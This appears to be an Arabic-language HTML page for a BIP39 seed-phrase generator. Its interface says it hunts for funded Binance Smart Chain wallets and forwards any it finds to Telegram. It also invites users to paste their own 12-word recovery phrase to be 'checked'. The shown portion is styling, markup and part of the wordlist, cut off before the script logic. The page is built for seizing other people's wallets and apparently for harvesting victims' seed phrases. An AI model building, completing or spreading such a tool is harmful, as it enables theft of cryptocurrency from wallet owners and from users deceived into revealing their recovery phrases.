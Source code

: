 ورديتي هويتي
<html lang="ar" dir="rtl">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>مولد عبارات BIP39 والبحث عن المحافظ النشطة - شبكة BSC</title>
    <style>
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
        }

        body {
            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            min-height: 100vh;
            padding: 20px;
            direction: rtl;
            text-align: right;
        }

        .container {
            max-width: 340px;
            margin: 0 auto;
            background: rgba(255, 255, 255, 0.95);
            border-radius: 20px;
            box-shadow: 0 20px 40px rgba(0, 0, 0, 0.1);
            overflow: hidden;
            backdrop-filter: blur(10px);
        }

        .header {
            background: linear-gradient(135deg, #f0b90b 0%, #f8d33a 100%);
            color: white;
            padding: 30px;
            text-align: center;
        }

        .header h1 {
            font-size: 2.5rem;
            margin-bottom: 10px;
            font-weight: 700;
        }

        .header p {
            font-size: 1.1rem;
            opacity: 0.9;
        }

        .main-content {
            padding: 40px;
        }

        .control-panel {
            background: #f8f9fa;
            border-radius: 15px;
            padding: 30px;
            margin-bottom: 30px;
            border: 1px solid #e9ecef;
        }

        .control-group {
            margin-bottom: 25px;
        }

        .control-group label {
            display: block;
            font-weight: 600;
            margin-bottom: 8px;
            color: #495057;
            font-size: 1rem;
        }

        .control-group input,
        .control-group select,
        .control-group textarea {
            width: 100%;
            padding: 12px 15px;
            border: 2px solid #dee2e6;
            border-radius: 10px;
            font-size: 1rem;
            transition: all 0.3s ease;
            background: white;
        }

        .control-group input:focus,
        .control-group select:focus,
        .control-group textarea:focus {
            outline: none;
            border-color: #f0b90b;
            box-shadow: 0 0 0 3px rgba(240, 185, 11, 0.1);
        }

        .button-group {
            display: flex;
            gap: 15px;
            flex-wrap: wrap;
            justify-content: center;
            margin-top: 30px;
        }

        .btn {
            padding: 15px 30px;
            border: none;
            border-radius: 10px;
            font-size: 1rem;
            font-weight: 600;
            cursor: pointer;
            transition: all 0.3s ease;
            text-decoration: none;
            display: inline-flex;
            align-items: center;
            justify-content: center;
            gap: 8px;
            min-width: 150px;
        }

        .btn-primary {
            background: linear-gradient(135deg, #f0b90b 0%, #f8d33a 100%);
            color: white;
        }

        .btn-primary:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(240, 185, 11, 0.3);
        }

        .btn-success {
            background: linear-gradient(135deg, #56ab2f 0%, #a8e6cf 100%);
            color: white;
        }

        .btn-success:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(86, 171, 47, 0.3);
        }

        .btn-danger {
            background: linear-gradient(135deg, #ff416c 0%, #ff4b2b 100%);
            color: white;
        }

        .btn-danger:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(255, 65, 108, 0.3);
        }

        .btn-secondary {
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            color: white;
        }

        .btn-secondary:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(102, 126, 234, 0.3);
        }

        .btn-warning {
            background: linear-gradient(135deg, #ff9a00 0%, #ffcc00 100%);
            color: white;
        }

        .btn-warning:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(255, 154, 0, 0.3);
        }

        .btn:disabled {
            opacity: 0.6;
            cursor: not-allowed;
            transform: none !important;
            box-shadow: none !important;
        }

        .status-panel {
            background: white;
            border-radius: 15px;
            padding: 25px;
            margin-bottom: 25px;
            border: 1px solid #e9ecef;
        }

        .status-panel h3 {
            color: #495057;
            margin-bottom: 20px;
            font-size: 1.3rem;
        }

        .status-grid {
            display: grid;
            grid-template-columns: repeat(auto-fit, minmax(200px, 1fr));
            gap: 20px;
            margin-bottom: 20px;
        }

        .status-card {
            background: #f8f9fa;
            padding: 20px;
            border-radius: 10px;
            text-align: center;
            border: 1px solid #e9ecef;
        }

        .status-card .number {
            font-size: 2rem;
            font-weight: 700;
            color: #f0b90b;
            margin-bottom: 5px;
        }

        .status-card .label {
            color: #6c757d;
            font-size: 0.9rem;
        }

        .progress-bar {
            width: 100%;
            height: 8px;
            background: #e9ecef;
            border-radius: 4px;
            overflow: hidden;
            margin: 15px 0;
        }

        .progress-fill {
            height: 100%;
            background: linear-gradient(90deg, #f0b90b 0%, #f8d33a 100%);
            width: 0%;
            transition: width 0.3s ease;
        }

        .log-panel {
            background: #212529;
            color: #ffffff;
            border-radius: 15px;
            padding: 20px;
            margin-top: 25px;
            max-height: 300px;
            overflow-y: auto;
            font-family: 'Courier New', monospace;
            font-size: 0.9rem;
            line-height: 1.4;
        }

        .log-entry {
            margin-bottom: 8px;
            padding: 5px 0;
            border-bottom: 1px solid #343a40;
        }

        .log-entry:last-child {
            border-bottom: none;
        }

        .log-timestamp {
            color: #6c757d;
            font-size: 0.8rem;
        }

        .log-success {
            color: #28a745;
        }

        .log-error {
            color: #dc3545;
        }

        .log-info {
            color: #17a2b8;
        }

        .wallet-display {
            background: #f8f9fa;
            border: 1px solid #dee2e6;
            border-radius: 10px;
            padding: 20px;
            margin: 15px 0;
            word-break: break-all;
        }

        .wallet-display .mnemonic {
            background: #e9ecef;
            padding: 15px;
            border-radius: 8px;
            font-family: 'Courier New', monospace;
            font-size: 0.9rem;
            margin-bottom: 10px;
        }

        .wallet-display .address {
            color: #495057;
            font-family: 'Courier New', monospace;
            font-size: 0.8rem;
        }

        .loading-spinner {
            display: inline-block;
            width: 20px;
            height: 20px;
            border: 3px solid rgba(255, 255, 255, 0.3);
            border-radius: 50%;
            border-top-color: #fff;
            animation: spin 1s ease-in-out infinite;
        }

        @keyframes spin {
            to { transform: rotate(360deg); }
        }

        .alert {
            padding: 15px 20px;
            border-radius: 10px;
            margin: 15px 0;
            font-weight: 500;
        }

        .alert-success {
            background: #d4edda;
            color: #155724;
            border: 1px solid #c3e6cb;
        }

        .alert-danger {
            background: #f8d7da;
            color: #721c24;
            border: 1px solid #f5c6cb;
        }

        .alert-info {
            background: #d1ecf1;
            color: #0c5460;
            border: 1px solid #bee5eb;
        }

        .alert-warning {
            background: #fff3cd;
            color: #856404;
            border: 1px solid #ffeaa7;
        }

        /* قسم العرض المباشر للعبارات */
        .live-display {
            background: #e8f5e8;
            border-radius: 10px;
            padding: 15px;
            margin-top: 15px;
            border: 1px solid #c3e6cb;
        }

        .live-display h5 {
            color: #155724;
            margin-bottom: 10px;
            font-size: 1rem;
        }

        .current-phrase {
            background: white;
            padding: 10px;
            border-radius: 5px;
            font-family: 'Courier New', monospace;
            font-size: 0.9rem;
            border: 1px solid #dee2e6;
            margin-bottom: 10px;
        }

        .phrase-status {
            font-size: 0.9rem;
            font-weight: 500;
        }

        .phrase-status.checking {
            color: #856404;
        }

        .phrase-status.active {
            color: #155724;
        }

        .phrase-status.empty {
            color: #721c24;
        }

        @media (max-width: 768px) {
            body {
                padding: 10px;
            }
            
            .header h1 {
                font-size: 2rem;
            }
            
            .header p {
                font-size: 1rem;
            }
            
            .main-content {
                padding: 20px;
            }
            
            .control-panel {
                padding: 20px;
            }
            
            .button-group {
                flex-direction: column;
            }
            
            .btn {
                width: 100%;
                min-width: auto;
            }
            
            .status-grid {
                grid-template-columns: repeat(2, 1fr);
                gap: 15px;
            }
            
            .status-card .number {
                font-size: 1.5rem;
            }
            
            .log-panel {
                font-size: 0.8rem;
                max-height: 200px;
            }
        }

        @media (max-width: 480px) {
            .header {
                padding: 20px;
            }
            
            .header h1 {
                font-size: 1.8rem;
            }
            
            .main-content {
                padding: 15px;
            }
            
            .control-panel {
                padding: 15px;
            }
            
            .status-grid {
                grid-template-columns: 1fr;
            }
            
            .status-card {
                padding: 15px;
            }
            
            .wallet-display .mnemonic {
                font-size: 0.8rem;
                padding: 10px;
            }
        }

        .fade-in {
            animation: fadeIn 0.5s ease-in;
        }

        @keyframes fadeIn {
            from { opacity: 0; transform: translateY(20px); }
            to { opacity: 1; transform: translateY(0); }
        }

        .log-panel::-webkit-scrollbar {
            width: 8px;
        }

        .log-panel::-webkit-scrollbar-track {
            background: #343a40;
            border-radius: 4px;
        }

        .log-panel::-webkit-scrollbar-thumb {
            background: #6c757d;
            border-radius: 4px;
        }

        .log-panel::-webkit-scrollbar-thumb:hover {
            background: #adb5bd;
        }

        .test-result {
            background: #f8f9fa;
            border-radius: 10px;
            padding: 20px;
            margin-top: 15px;
            border-left: 5px solid #f0b90b;
        }

        .test-result.active {
            border-left-color: #28a745;
        }

        .test-result.inactive {
            border-left-color: #dc3545;
        }

        .test-result h4 {
            margin-bottom: 10px;
            color: #495057;
        }

        .test-result .balance {
            font-size: 1.2rem;
            font-weight: bold;
            margin: 10px 0;
        }

        .test-result .balance.positive {
            color: #28a745;
        }

        .test-result .balance.zero {
            color: #6c757d;
        }

        .test-result .transactions {
            margin: 10px 0;
        }

        .test-result .status {
            padding: 5px 10px;
            border-radius: 5px;
            font-weight: bold;
            display: inline-block;
        }

        .test-result .status.active {
            background: #d4edda;
            color: #155724;
        }

        .test-result .status.inactive {
            background: #f8d7da;
            color: #721c24;
        }

        .token-list {
            padding: 10px;
            background: #e9ecef;
            border-radius: 5px;
        }

        .token-item {
            display: flex;
            justify-content: space-between;
            padding: 5px 0;
            border-bottom: 1px solid #ced4da;
        }

        .token-item:last-child {
            border-bottom: none;
        }
    </style>
</head>
<body>
    <div class="container">
        <div class="header">
            <h1>🔑 مولد عبارات BIP39 - شبكة BSC</h1>
            <p>البحث عن المحافظ النشطة وإرسالها إلى Telegram - شبكة Binance Smart Chain</p>
        </div>

        <div class="main-content">
            <div class="control-panel">
                <div class="control-group">
                    <label for="searchSpeed">سرعة البحث (مللي ثانية بين كل عبارة):</label>
                    <input type="number" id="searchSpeed" value="3000" min="1000" max="10000" step="500">
                </div>

                <div class="control-group">
                    <label for="maxAttempts">الحد الأقصى للمحاولات (0 = لا نهاية):</label>
                    <input type="number" id="maxAttempts" value="0" min="0" max="10000">
                </div>

                <div class="button-group">
                    <button id="startBtn" class="btn btn-success">
                        <span>🚀 بدء البحث</span>
                    </button>
                    <button id="stopBtn" class="btn btn-danger" disabled>
                        <span>⏹️ إيقاف البحث</span>
                    </button>
                    <button id="testTelegramBtn" class="btn btn-secondary">
                        <span>📱 اختبار Telegram</span>
                    </button>
                    <button id="clearLogsBtn" class="btn btn-primary">
                        <span>🗑️ مسح السجل</span>
                    </button>
                </div>
            </div>

            <!-- قسم اختبار العبارات يدويًا -->
            <div class="control-panel">
                <h3>🔍 اختبار عبارة BIP39 يدويًا</h3>
                <div class="control-group">
                    <label for="manualMnemonic">أدخل عبارة BIP39 (12 كلمة):</label>
                    <textarea id="manualMnemonic" rows="3" placeholder="أدخل عبارة الاسترجاع المكونة من 12 كلمة هنا..."></textarea>
                </div>
                <div class="button-group">
                    <button id="testManualBtn" class="btn btn-warning">
                        <span>🔍 فحص العبارة</span>
                    </button>
                </div>
                
                <!-- قسم العرض المباشر للعبارات -->
                <div id="liveDisplay" class="live-display" style="display: none;">
                    <h5>🔄 العبارة الحالية قيد الفحص:</h5>
                    <div id="currentPhrase" class="current-phrase"></div>
                    <div id="phraseStatus" class="phrase-status"></div>
                </div>
                
                <div id="manualTestResult" class="test-result" style="display: none;">
                    <!-- سيتم ملؤه ديناميكيًا -->
                </div>
            </div>

            <div class="status-panel">
                <h3>📊 إحصائيات العملية</h3>
                <div class="status-grid">
                    <div class="status-card">
                        <div class="number" id="totalGenerated">0</div>
                        <div class="label">إجمالي العبارات</div>
                    </div>
                    <div class="status-card">
                        <div class="number" id="activeWallets">0</div>
                        <div class="label">المحافظ النشطة</div>
                    </div>
                    <div class="status-card">
                        <div class="number" id="emptyWallets">0</div>
                        <div class="label">المحافظ الفارغة</div>
                    </div>
                    <div class="status-card">
                        <div class="number" id="errorCount">0</div>
                        <div class="label">الأخطاء</div>
                    </div>
                </div>
                <div class="progress-bar">
                    <div class="progress-fill" id="progressFill"></div>
                </div>
                <div id="currentStatus" class="alert alert-info">
                    جاهز للبدء... التطبيق يدعم الآن شبكة BSC مع البحث السريع
                </div>
            </div>

            <div class="log-panel" id="logPanel">
                <div class="log-entry log-info">
                    <span class="log-timestamp" id="currentTime"></span>
                    مرحباً بك في مولد عبارات BIP39 المحسن. يدعم الآن شبكة Binance Smart Chain مع البحث السريع.
                </div>
            </div>
        </div>
    </div>

    <!-- تحميل مكتبة ethers.js -->
    <script src="https://cdn.jsdelivr.net/npm/ethers@5.7.2/dist/ethers.umd.min.js"></script>

    <script>
        // قائمة كلمات BIP39 الإنجليزية الرسمية (مدمجة من كود sell للسرعة)
        const BIP39_WORDLIST = [
            "abandon", "ability", "able", "about", "above", "absent", "absorb", "abstract", "absurd", "abuse",
            "access", "accident", "account", "accuse", "achieve", "acid", "acoustic", "acquire", "across", "act",
            "action", "actor", "actress", "actual", "adapt", "add", "addict", "address", "adjust", "admit",
            "adult", "advance", "advice", "aerobic", "affair", "affect", "afford", "afraid", "after", "again",
            "age", "agent", "agree", "ahead", "aim", "air", "airport", "aisle", "alarm", "album",
            "alcohol", "alert", "alien", "all", "alley", "allow", "almost", "alone", "alpha", "already",
            "also", "alter", "always", "amateur", "amazing", "among", "amount", "amused", "analyst", "anchor",
            "ancient", "anger", "angle", "angry", "animal", "announce", "annual", "another", "answer", "antenna",
            "antique", "anxiety", "any", "apart", "apology", "appear", "apple", "approve", "april", "area",
            "arena", "argue", "arm", "armed", "armor", "army", "around", "arrange", "arrest", "arrive",
            "arrow", "art", "artefact", "artist", "artwork", "ask", "aspect", "assault", "asset", "assist",
            "assume", "asthma", "athlete", "atom", "attack", "attend", "attitude", "attract", "auction", "audit",
            "august", "aunt", "author", "auto", "autumn", "average", "avocado", "avoid", "awake", "aware",
            "away", "awesome", "awful", "awkward", "axis", "baby", "bachelor", "bacon", "badge", "bag",
            "balance", "balcony", "ball", "bamboo", "banana", "banner", "bar", "barely", "bargain", "barrel",
            "base", "basic", "basket", "battle", "beach", "bean", "beauty", "because", "become", "beef",
            "before", "begin", "behave", "behind", "believe", "below", "belt", "bench", "benefit", "best",
            "betray", "better", "between", "beyond", "bicycle", "bid", "bike", "bind", "biology", "bird",
            "birth", "bitter", "black", "blade", "blame", "blanket", "blast", "bleak", "bless", "blind",
            "blood", "blossom", "blouse", "blue", "blur", "blush", "board", "boat", "body", "boil",
            "bomb", "bone", "bonus", "book", "boost", "border", "boring", "borrow", "boss", "bottom",
            "bounce", "box", "boy", "bracket", "brain", "brand", "brass", "brave", "bread", "breeze",
            "brick", "bridge", "brief", "bright", "bring", "brisk", "broccoli", "broken", "bronze", "broom",
            "brother", "brown", "brush", "bubble", "buddy", "budget", "buffalo", "build", "bulb", "bulk",
            "bullet", "bundle", "bunker", "burden", "burger", "burst", "bus", "business", "busy", "butter",
            "buyer", "buzz", "cabbage", "cabin", "cable", "cactus", "cage", "cake", "call", "calm",
            "camera", "camp", "can", "canal", "cancel", "candy", "cannon", "canoe", "canvas", "canyon",
            "capable", "capital", "captain", "car", "carbon", "card", "cargo", "carpet", "carry", "cart",
            "case", "cash", "casino", "castle", "casual", "cat", "catalog", "catch", "category", "cattle",
            "caught", "cause", "caution", "cave", "ceiling", "celery", "cement", "census", "century", "ceremony",
            "certain", "chair", "chalk", "champion", "change", "chaos", "chapter", "charge", "chase", "chat",
            "cheap", "check", "cheek", "cheese", "chef", "cherry", "chest", "chicken", "chief", "child",
            "chimney", "choice", "choose", "chronic", "chuckle", "chunk", "churn", "cigar", "cinnamon", "circle",
            "citizen", "city", "civil", "claim", "clap", "clarify", "claw", "clay", "clean", "clerk",
            "clever", "click", "client", "cliff", "climb", "clinic", "clip", "clock", "clog", "close",
            "cloth", "cloud", "clown", "club", "clump", "cluster", "clutch", "coach", "coast", "coconut",
            "code", "coffee", "coil", "coin", "collect", "color", "column", "combine", "come", "comfort",
            "comic", "common", "company", "concert", "conduct", "confirm", "congress", "connect", "consider", "control",
            "convince", "cook", "cool", "copper", "copy", "coral", "core", "corn", "correct", "cost",
            "cotton", "couch", "country", "couple", "course", "cousin", "cover", "coyote", "crack", "cradle",
            "craft", "cram", "crane", "crash", "crater", "crawl", "crazy", "cream", "credit", "creek",
            "crew", "cricket", "crime", "crisp", "critic", "crop", "cross", "crouch", "crowd", "crucial",
            "cruel", "cruise", "crumble", "crunch", "crush", "cry", "crystal", "cube", "culture", "cup",
            "cupboard", "curious", "current", "curtain", "curve", "cushion", "custom", "cute", "cycle", "dad",
            "damage", "damp", "dance", "danger", "daring", "dark", "dash", "date", "daughter", "dawn",
            "day", "deal", "debate", "debris", "decade", "december", "decide", "decline", "decorate", "decrease",
            "deer", "defense", "define", "defy", "degree", "delay", "deliver", "demand", "demise", "denial",
            "dentist", "deny", "depart", "depend", "deposit", "depth", "deputy", "derive", "describe", "desert",
            "design", "desk", "despair", "destroy", "detail", "detect", "develop", "device", "devote", "diagram",
            "dial", "diamond", "diary", "dice", "diesel", "diet", "differ", "digital", "dignity", "dilemma",
            "dinner", "dinosaur", "direct", "dirt", "disagree", "discover", "disease", "dish", "dismiss", "disorder",
            "display", "distance", "divert", "divide", "divorce", "dizzy", "doctor", "document", "dog", "doll",
            "dolphin", "domain", "donate", "donkey", "donor", "door", "dose", "double", "dove", "draft",
            "dragon", "drama", "drastic", "draw", "dream", "dress", "drift", "drill", "drink", "drip",
            "drive", "drop", "drum", "dry", "duck", "dumb", "dune", "during", "dust", "dutch",
            "duty", "dwarf", "dynamic", "eager", "eagle", "early", "earn", "earth", "easily", "east",
            "easy", "echo", "ecology", "economy", "edge", "edit", "educate", "effort", "egg", "eight",
            "either", "elbow", "elder", "electric", "elegant", "element", "elephant", "elevator", "elite", "else",
            "embark", "embody", "embrace", "emerge", "emotion", "employ", "empower", "empty", "enable", "enact",
            "end", "endless", "endorse", "enemy", "energy", "enforce", "engage", "engine", "enhance", "enjoy",
            "enlist", "enough", "enrich", "enroll", "ensure", "enter", "entire", "entry", "envelope", "episode",
            "equal", "equip", "era", "erase", "erode", "erosion", "error", "erupt", "escape", "essay",
            "essence", "estate", "eternal", "ethics", "evidence", "evil", "evoke", "evolve", "exact", "example",
            "excess", "exchange", "excite", "exclude", "excuse", "execute", "exercise", "exhaust", "exhibit", "exile",
            "exist", "exit", "exotic", "expand", "expect", "expire", "explain", "expose", "express", "extend",
            "extra", "eye", "eyebrow", "fabric", "face", "faculty", "fade", "faint", "faith", "fall",
            "false", "fame", "family", "famous", "fan", "fancy", "fantasy", "farm", "fashion", "fat",
            "fatal", "father", "fatigue", "fault", "favorite", "feature", "february", "federal", "fee", "feed",
            "feel", "female", "fence", "festival", "fetch", "fever", "few", "fiber", "fiction", "field",
            "figure", "file", "film", "filter", "final", "find", "fine", "finger", "finish", "fire",
            "firm", "first", "fiscal", "fish", "fit", "fitness", "fix", "flag", "flame", "flash",
            "flat", "flavor", "flee", "flight", "flip", "float", "flock", "floor", "flower", "fluid",
            "flush", "fly", "foam", "focus", "fog", "foil", "fold", "follow", "food", "foot",
            "force", "foreign", "forest", "forget", "fork", "fortune", "forum", "forward", "fossil", "foster",
            "found", "fox", "fragile", "frame", "frequent", "fresh", "friend", "fringe", "frog", "front",
            "frost", "frown", "frozen", "fruit", "fuel", "fun", "funny", "furnace", "fury", "future",
            "gadget", "gain", "galaxy", "gallery", "game", "gap", "garage", "garbage", "garden", "garlic",
            "garment", "gas", "gasp", "gate", "gather", "gauge", "gaze", "general", "genius", "genre",
            "gentle", "genuine", "gesture", "ghost", "giant", "gift", "giggle", "ginger", "giraffe", "girl",
            "give", "glad", "glance", "glare", "glass", "glide", "glimpse", "globe", "gloom", "glory",
            "glove", "glow", "glue", "goat", "goddess", "gold", "good", "goose", "gorilla", "gospel",
            "gossip", "govern", "gown", "grab", "grace", "grain", "grant", "grape", "grass", "gravity",
            "great", "green", "grid", "grief", "grit", "grocery", "group", "grow", "grunt", "guard",
            "guess", "guide", "guilt", "guitar", "gun", "gym", "habit", "hair", "half", "hammer",
            "hamster", "hand", "happy", "harbor", "hard", "harsh", "harvest", "hat", "have", "hawk",
            "hazard", "head", "health", "heart", "heavy", "hedgehog", "height", "hello", "helmet", "help",
            "hen", "hero", "hidden", "high", "hill", "hint", "hip", "hire", "history", "hobby",
            "hockey", "hold", "hole", "holiday", "hollow", "home", "honey", "hood", "hope", "horn",
            "horror", "horse", "hospital", "host", "hotel", "hour", "hover", "hub", "huge", "human",
            "humble", "humor", "hundred", "hungry", "hunt", "hurdle", "hurry", "hurt", "husband", "hybrid",
            "ice", "icon", "idea", "identify", "idle", "ignore", "ill", "illegal", "illness", "image",
            "imitate", "immense", "immune", "impact", "impose", "improve", "impulse", "inch", "include", "income",
            "increase", "index", "indicate", "indoor", "industry", "infant", "inflict", "inform", "inhale", "inherit",
            "initial", "inject", "injury", "inmate", "inner", "innocent", "input", "inquiry", "insane", "insect",
            "inside", "inspire", "install", "intact", "interest", "into", "invest", "invite", "involve", "iron",
            "island", "isolate", "issue", "item", "ivory", "jacket", "jaguar", "jar", "jazz", "jealous",
            "jeans", "jelly", "jewel", "job", "join", "joke", "journey", "joy", "judge", "juice",
            "jump", "jungle", "junior", "junk", "just", "kangaroo", "keen", "keep", "ketchup", "key",
            "kick", "kid", "kidney", "kind", "kingdom", "kiss", "kit", "kitchen", "kite", "kitten",
            "kiwi", "knee", "knife", "knock", "know", "lab", "label", "labor", "ladder", "lady",
            "lake", "lamp", "language", "laptop", "large", "later", "latin", "laugh", "laundry", "lava",
            "law", "lawn", "lawsuit", "layer", "lazy", "leader", "leaf", "learn", "leave", "lecture",
            "left", "leg", "legal", "legend", "leisure", "lemon", "lend", "length", "lens", "leopard",
            "lesson", "letter", "level", "liar", "liberty", "library", "license", "life", "lift", "light",
            "like", "limb", "limit", "link", "lion", "liquid", "list", "little", "live", "lizard",
            "load", "loan", "lobster", "local", "lock", "logic", "lonely", "long", "loop", "lottery",
            "loud", "lounge", "love", "loyal", "lucky", "luggage", "lumber", "lunar", "lunch", "luxury",
            "lying", "machine", "mad", "magic", "magnet", "maid", "mail", "main", "major", "make",
            "mammal", "man", "manage", "mandate", "mango", "mansion", "manual", "maple", "marble", "march",
            "margin", "marine", "market", "marriage", "mask", "mass", "master", "match", "material", "math",
            "matrix", "matter", "maximum", "maze", "meadow", "mean", "measure", "meat", "mechanic", "medal",
            "media", "melody", "melt", "member", "memory", "mention", "menu", "mercy", "merge", "merit",
            "merry", "mesh", "message", "metal", "method", "middle", "midnight", "milk", "million", "mimic",
            "mind", "minimum", "minor", "minute", "miracle", "mirror", "misery", "miss", "mistake", "mix",
            "mixed", "mixture", "mobile", "model", "modify", "mom", "moment", "monitor", "monkey", "monster",
            "month", "moon", "moral", "more", "morning", "mosquito", "mother", "motion", "motor", "mountain",
            "mouse", "move", "movie", "much", "muffin", "mule", "multiply", "muscle", "museum", "mushroom",
            "music", "must", "mutual", "myself", "mystery", "myth", "naive", "name", "napkin", "narrow",
            "nasty", "nation", "nature", "near", "neck", "need", "needle", "neglect", "neighbor", "neither",
            "nephew", "nerve", "nest", "net", "network", "neutral", "never", "news", "next", "nice",
            "night", "noble", "noise", "nominee", "noodle", "normal", "north", "nose", "notable", "note",
            "nothing", "notice", "novel", "now", "nuclear", "number", "nurse", "nut", "oak", "obey",
            "object", "oblige", "obscure", "observe", "obtain", "obvious", "occur", "ocean", "october", "odor",
            "off", "offer", "office", "often", "oil", "okay", "old", "olive", "olympic", "omit",
            "once", "one", "onion", "online", "only", "open", "opera", "opinion", "oppose", "option",
            "orange", "orbit", "order", "ordinary", "organ", "orient", "original", "orphan", "ostrich", "other",
            "outdoor", "outer", "output", "outside", "oval", "over", "own", "owner", "oxygen", "oyster",
            "ozone", "pact", "paddle", "page", "pair", "palace", "palm", "panda", "panel", "panic",
            "panther", "paper", "parade", "parent", "park", "parrot", "part", "party", "pass", "patch",
            "path", "patient", "patrol", "pattern", "pause", "pave", "payment", "peace", "peanut", "pear",
            "peasant", "pelican", "pen", "penalty", "pencil", "people", "pepper", "perfect", "permit", "person",
            "pet", "phone", "photo", "phrase", "physical", "piano", "picnic", "picture", "piece", "pig",
            "pigeon", "pill", "pilot", "pink", "pioneer", "pipe", "pistol", "pitch", "pizza", "place",
            "planet", "plastic", "plate", "play", "please", "pledge", "pluck", "plug", "plunge", "poem",
            "poet", "point", "polar", "pole", "police", "pond", "pony", "pool", "popular", "portion",
            "position", "possible", "post", "potato", "pottery", "poverty", "powder", "power", "practice", "praise",
            "predict", "prefer", "prepare", "present", "pretty", "prevent", "price", "pride", "primary", "print",
            "priority", "prison", "private", "prize", "problem", "process", "produce", "profit", "program", "project",
            "promote", "proof", "property", "prosper", "protect", "proud", "provide", "public", "pudding", "pull",
            "pulp", "pulse", "pumpkin", "punch", "pupil", "puppy", "purchase", "purity", "purpose", "purse",
            "push", "put", "puzzle", "pyramid", "quality", "quantum", "quarter", "question", "quick", "quiet",
            "quilt", "quit", "quiz", "quote", "rabbit", "raccoon", "race", "rack", "radar", "radio",
            "rail", "rain", "raise", "rally", "ramp", "ranch", "random", "range", "rapid", "rare",
            "rate", "rather", "raven", "raw", "razor", "ready", "real", "reason", "rebel", "rebuild",
            "recall", "receive", "recipe", "record", "recycle", "reduce", "reflect", "reform", "refuse", "region",
            "regret", "regular", "reject", "relax", "release", "relief", "rely", "remain", "remember", "remind",
            "remove", "render", "renew", "rent", "reopen", "repair", "repeat", "replace", "report", "require",
            "rescue", "resemble", "resist", "resource", "response", "result", "retire", "retreat", "return", "reunion",
            "reveal", "review", "reward", "rhythm", "rib", "ribbon", "rice", "rich", "ride", "ridge",
            "rifle", "right", "rigid", "ring", "riot", "ripple", "rise", "risk", "ritual", "rival",
            "river", "road", "roast", "rob", "robot", "robust", "rocket", "romance", "roof", "rookie",
            "room", "rose", "rotate", "rough", "round", "route", "royal", "rubber", "rude", "rug",
            "rule", "run", "runway", "rural", "sad", "saddle", "sadness", "safe", "sail", "salad",
            "salmon", "salon", "salt", "salute", "same", "sample", "sand", "satisfy", "satoshi", "sauce",
            "sausage", "save", "say", "scale", "scan", "scare", "scatter", "scene", "scheme", "school",
            "science", "scissors", "scorpion", "scout", "scrap", "screen", "script", "scrub", "sea", "search",
            "season", "seat", "second", "secret", "section", "security", "seed", "seek", "segment", "select",
            "sell", "seminar", "senior", "sense", "sentence", "series", "service", "session", "settle", "setup",
            "seven", "shadow", "shaft", "shallow", "share", "shed", "shell", "sheriff", "shield", "shift",
            "shine", "ship", "shirt", "shock", "shoe", "shoot", "shop", "short", "shoulder", "shove",
            "shrimp", "shrug", "shuffle", "shy", "sibling", "sick", "side", "siege", "sight", "sign",
            "silent", "silk", "silly", "silver", "similar", "simple", "since", "sing", "siren", "sister",
            "situate", "six", "size", "skate", "sketch", "ski", "skill", "skin", "skirt", "skull",
            "slab", "slam", "sleep", "slender", "slice", "slide", "slight", "slim", "slogan", "slot",
            "slow", "slush", "small", "smart", "smile", "smoke", "smooth", "snack", "snake", "snap",
            "sniff", "snow", "soap", "soccer", "social", "sock", "soda", "soft", "solar", "sold",
            "soldier", "solid", "solution", "solve", "someone", "song", "soon", "sorry", "sort", "soul",
            "sound", "soup", "source", "south", "space", "spare", "spatial", "spawn", "speak", "special",
            "speed", "spell", "spend", "sphere", "spice", "spider", "spike", "spin", "spirit", "split",
            "spoil", "sponsor", "spoon", "sport", "spot", "spray", "spread", "spring", "spy", "square",
            "squeeze", "squirrel", "stable", "stadium", "staff", "stage", "stairs", "stamp", "stand", "start",
            "state", "stay", "steak", "steel", "stem", "step", "stereo", "stick", "still", "sting",
            "stock", "stomach", "stone", "stool", "story", "stove", "strategy", "street", "strike", "strong",
            "struggle", "student", "stuff", "stumble", "style", "subject", "submit", "subway", "success", "such",
            "sudden", "suffer", "sugar", "suggest", "suit", "summer", "sun", "sunny", "sunset", "super",
            "supply", "supreme", "sure", "surface", "surge", "surprise", "surround", "survey", "suspect", "sustain",
            "swallow", "swamp", "swap", "swear", "sweet", "swift", "swim", "swing", "switch", "sword",
            "symbol", "symptom", "syrup", "system", "table", "tackle", "tag", "tail", "talent", "talk",
            "tank", "tape", "target", "task", "taste", "tattoo", "taxi", "teach", "team", "tell",
            "ten", "tenant", "tennis", "tent", "term", "test", "text", "thank", "that", "theme",
            "then", "theory", "there", "they", "thing", "this", "thought", "three", "thrive", "throw",
            "thumb", "thunder", "ticket", "tide", "tiger", "tilt", "timber", "time", "tiny", "tip",
            "tired", "tissue", "title", "toast", "tobacco", "today", "toddler", "toe", "together", "toilet",
            "token", "tomato", "tomorrow", "tone", "tongue", "tonight", "tool", "tooth", "top", "topic",
            "topple", "torch", "tornado", "tortoise", "toss", "total", "tourist", "toward", "tower", "town",
            "toy", "track", "trade", "traffic", "tragic", "train", "transfer", "trap", "trash", "travel",
            "tray", "treat", "tree", "trend", "trial", "tribe", "trick", "trigger", "trim", "trip",
            "trophy", "trouble", "truck", "true", "truly", "trumpet", "trust", "truth", "try", "tube",
            "tuition", "tumble", "tuna", "tunnel", "turkey", "turn", "turtle", "twelve", "twenty", "twice",
            "twin", "twist", "two", "type", "typical", "ugly", "umbrella", "unable", "unaware", "uncle",
            "uncover", "under", "undo", "unfair", "unfold", "unhappy", "uniform", "unique", "unit", "universe",
            "unknown", "unlock", "until", "unusual", "unveil", "update", "upgrade", "uphold", "upon", "upper",
            "upset", "urban", "urge", "usage", "use", "used", "useful", "useless", "usual", "utility",
            "vacant", "vacuum", "vague", "valid", "valley", "valve", "van", "vanish", "vapor", "various",
            "vast", "vault", "vehicle", "velvet", "vendor", "venture", "venue", "verb", "verify", "version",
            "very", "vessel", "veteran", "viable", "vibe", "vicious", "victory", "video", "view", "village",
